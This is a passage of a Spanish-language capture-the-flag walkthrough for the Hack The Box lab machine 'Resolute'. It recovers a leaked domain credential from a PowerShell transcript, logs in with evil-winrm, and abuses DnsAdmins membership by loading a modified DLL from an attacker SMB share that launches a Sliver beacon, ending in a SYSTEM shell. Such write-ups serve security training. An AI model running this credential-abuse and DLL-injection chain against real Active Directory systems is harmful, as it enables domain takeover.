d-----        9/25/2019   6:19 AM                PerfLogs
d-r---        9/25/2019  12:39 PM                Program Files
d-----       11/20/2016   6:36 PM                Program Files (x86)
d--h--         9/7/2024  11:26 AM                ProgramData
d--h--        12/3/2019   6:32 AM                PSTranscripts
d--hs-        9/25/2019  10:17 AM                Recovery
d--hs-        9/25/2019   6:25 AM                System Volume Information
d-r---        12/4/2019   2:46 AM                Users
d-----        12/4/2019   5:15 AM                Windows
-arhs-       11/20/2016   5:59 PM         389408 bootmgr
-a-hs-        7/16/2016   6:10 AM              1 BOOTNXT
-a-hs-         9/7/2024  10:14 AM      402653184 pagefile.sys


```

Encontramos una archivo extraño.
```console
*Evil-WinRM* PS C:\PSTranscripts\20191203> dir -force


    Directory: C:\PSTranscripts\20191203


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-arh--        12/3/2019   6:45 AM           3732 PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt

```

Leyendo el archivo encontramos esta línea.
```console
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```

Una credencial supuestamente para `ryan` `Serv3r4Admin4cc123!`

Vamos a comprobar esta credencial con `netexec`
Por alguna razón nos reporta `Pwn3d!` pero sabemos que este usuario no pertenece al grupo de administradores del dominio.
```console
$ nxc smb 10.129.201.75 -u ryan -p 'Serv3r4Admin4cc123!'
SMB         10.129.201.75   445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.129.201.75   445    RESOLUTE         [+] megabank.local\ryan:Serv3r4Admin4cc123! (Pwn3d!)
```

`ryan` pertenece al grupo `Contractors` que a su vez pertenece al grupo `DNSAdmins` y `Remote Management Users`


Obviamente no tenemos permisos de escritura en ninguno de los directorios que utiliza `psexec`, no se porqué `netexec` reportó eso.
```console
$ psexec.py -dc-ip 10.129.201.75 megabank.local/ryan:'Serv3r4Admin4cc123!@resolute.megabank.local' -target-ip 10.129.201.75
Impacket v0.12.0.dev1+20240819.165705.f98c9870 - Copyright 2023 Fortra

[*] Requesting shares on 10.129.201.75.....
[-] share 'ADMIN$' is not writable.
[-] share 'C$' is not writable.
[-] share 'NETLOGON' is not writable.
[-] share 'SYSVOL' is not writable.
```

Igualmente podemos migrar al usuario `ryan` a través de `evil-winrm`
```console
$ evil-winrm -i 10.129.201.75 -u ryan -p 'Serv3r4Admin4cc123!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami
megabank\ryan
```

# Privilege Escalation
Sabemos que `ryan` indirectamente pertenece al grupo `DnsAdmins`

Podemos leer [este post](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise) sobre la escalada de privilegios haciendo una inyección DLL al proceso del servidor DNS, ya que este proceso es privilegiado, conseguiremos ejecutar comandos como un usuario privilegiado y escalar privilegios.

Voy a utilizar [este PoC](https://github.com/kazkansouh/DNSAdmin-DLL)

Nos clonamos el repositorio.
```console
C:\Users\pc\Desktop\dlladmin>git clone https://github.com/kazkansouh/DNSAdmin-DLL
Cloning into 'DNSAdmin-DLL'...
remote: Enumerating objects: 15, done.
remote: Counting objects: 100% (15/15), done.
remote: Compressing objects: 100% (12/12), done.
remote: Total 15 (delta 3), reused 15 (delta 3), pack-reused 0 (from 0)
Receiving objects: 100% (15/15), 21.70 KiB | 1.21 MiB/s, done.
Resolving deltas: 100% (3/3), done.
```

Lo abrimos en Visual Studio.
Y en el archivo `DNSAdmin-DLL.cpp` vamos a cambiar el contenido de la función `DnsPluginInitialize`. Esta es la función donde vamos a poder ejecutar el comando a nivel de sistema.

Modificamos el código para simplemente ejecutar el ejecutable de nuestro beacon de `sliver` que vamos a crear mas adelante.
```c++
DWORD WINAPI DnsPluginInitialize(
	PVOID pDnsAllocateFunction,
	PVOID pDnsFreeFunction)
{
	FILE* f = NULL;
	system("c:\\test\\s.exe");
	return ERROR_SUCCESS;
}
```

Ahora compilamos el proyecto en **Release**


Aquí tenemos el DLL.


Nos lo pasamos a nuestra máquina de atacante creando un servidor SMB con `impacket-smbserver`
```console
$ sudo impacket-smbserver -smb2support smbFolder .
```

Vamos con `sliver` a generar un beacon.
```console
[server] sliver > generate beacon --os windows --format exe --seconds 5 --mtls 10.10.14.125 --arch amd64

[*] Generating new windows/amd64 beacon implant binary (5s)
[*] Symbol obfuscation is enabled
[*] Build completed in 46s
[*] Implant saved to /home/pointedsec/Desktop/resolute/LUCKY_SPEND.exe
```

Ahora lo he subido a la máquina víctima al directorio `C:\test\s.exe`
```console
*Evil-WinRM* PS C:\test> dir


    Directory: C:\test


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         9/7/2024  11:53 AM       15817728 s.exe
-a----         9/7/2024  11:52 AM            137 users.txt


```

Ahora, con el servidor SMB abierto.
```console
$ sudo impacket-smbserver -smb2support smbFolder .
Impacket v0.12.0.dev1+20240819.165705.f98c9870 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
09/07/2024 10:58:05 PM: INFO: Config file parsed
```

Vamos a cambiar el DLL la próxima vez que el servicio se inicie a nuestro DLL de nuestra máquina que estamos sirviendo a través del SMB.
```console
*Evil-WinRM* PS C:\test> dnscmd resolute /config /serverlevelplugindll \\10.10.14.125\smbFolder\privesc.dll                                       
                                                                                                                                                  
Registry property serverlevelplugindll successfully reset.                                                                                        
Command completed successfully.                                                                                                                   
                              
```

Podemos comprobar que todo ha salido bien.
```console
*Evil-WinRM* PS C:\test> Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll                      
                                                                                                                                                  
                                                                                                                                                  
ServerLevelPluginDll : \\10.10.14.125\smbFolder\privesc.dll                                                                                       
PSPath               : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS\Parameters\                   
PSParentPath         : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS                               
PSChildName          : Parameters                                                                                                                 
PSDrive              : HKLM                                                                                                                       
PSProvider           : Microsoft.PowerShell.Core\Registry                                                                                         
                                                                                                                                                  
                                                                                                                                                  
                                
```
Podemos observar que el valor de `ServerLevelPluginDll` es `\\10.10.14.125\smbFolder\privesc.dll` el cual es nuestro DLL.

Ahora solo falta reiniciar el servicio.
```console
*Evil-WinRM* PS C:\test> sc.exe \\resolute stop dns                                                                                               

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\test> sc.exe \\resolute start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 3728
        FLAGS              :
```

Y podemos ver en `Sliver` que nos llega un nuevo beacon.
```console
[*] Beacon ff2756b4 LUCKY_SPEND - 10.129.201.75:51717 (Resolute) - windows/amd64 - Sat, 07 Sep 2024 22:52:48 CEST


```

Y vemos un beacon como `NT Authority\system`
```console
[server] sliver > beacons

 ID         Name              Transport   Hostname     Username              Operating System   Last Check-In   Next Check-In 
========== ================= =========== ============ ===================== ================== =============== ===============
 17f341b1   DEVELOPING_BELL   mtls        Acute-PC01   ACUTE\edavies         windows/amd64      24h46m52s       24h46m45s     
 5662342a   DEVELOPING_BELL   mtls        Acute-PC01   ACUTE\edavies         windows/amd64      24h43m37s       24h43m32s     
 d503925b   DEVELOPING_BELL   mtls        Acute-PC01   ACUTE\edavies         windows/amd64      21h42m29s       21h42m24s     
 534e5b6d   LUCKY_SPEND       mtls        Resolute     MEGABANK\ryan         windows/amd64      21s             2s            
 ff2756b4   LUCKY_SPEND       mtls        Resolute     NT AUTHORITY\SYSTEM   windows/amd64      12s             18s           

```

Ahora podemos migrar a una sesión para conseguir una consola.

Utilizamos el beacon.
```console
[server] sliver > use ff2756b4

[*] Active beacon LUCKY_SPEND (ff2756b4-8ce0-4621-951c-7b8a0274dafc)
```

Creamos la sesión.
```console
[server] sliver (LUCKY_SPEND) > interactive

[*] Using beacon's active C2 endpoint: mtls://10.10.14.125:8888
[*] Tasked beacon LUCKY_SPEND (8f35a81f)

[*] Session 9b99e9cc LUCKY_SPEND - 10.129.201.75:51954 (Resolute) - windows/amd64 - Sat, 07 Sep 2024 23:02:21 CEST
```

Seleccionamos esta sesión.
```console
[server] sliver (LUCKY_SPEND) > use 9b99e9cc

[*] Active session LUCKY_SPEND (9b99e9cc-2e72-4ddf-a05d-7314b47e7721)
```

Y conseguimos una consola interactiva.
```console
[server] sliver (LUCKY_SPEND) > shell

? This action is bad OPSEC, are you an adult? Yes

[*] Wait approximately 10 seconds after exit, and press <enter> to continue
[*] Opening shell tunnel (EOF to exit) ...

[*] Started remote shell with pid 656

PS C:\Windows\system32> whoami
whoami
nt authority\system

```

Podemos leer la flag de `root`
```console
PS C:\Users\Administrator\Desktop> type root.txt
type root.txt
dea00efd37ab...
```

¡Y ya estaría!

Happy Hacking! 🚀